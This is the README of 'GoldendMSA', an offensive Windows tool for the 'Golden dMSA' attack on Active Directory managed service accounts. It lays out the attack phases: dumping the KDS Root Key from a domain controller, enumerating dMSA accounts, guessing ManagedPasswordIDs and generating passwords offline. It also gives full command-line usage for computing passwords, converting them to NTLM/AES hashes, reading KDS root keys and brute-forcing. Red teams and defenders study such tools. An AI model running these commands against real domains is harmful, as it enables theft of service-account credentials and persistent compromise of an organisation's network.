



# Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```



Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```



Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```


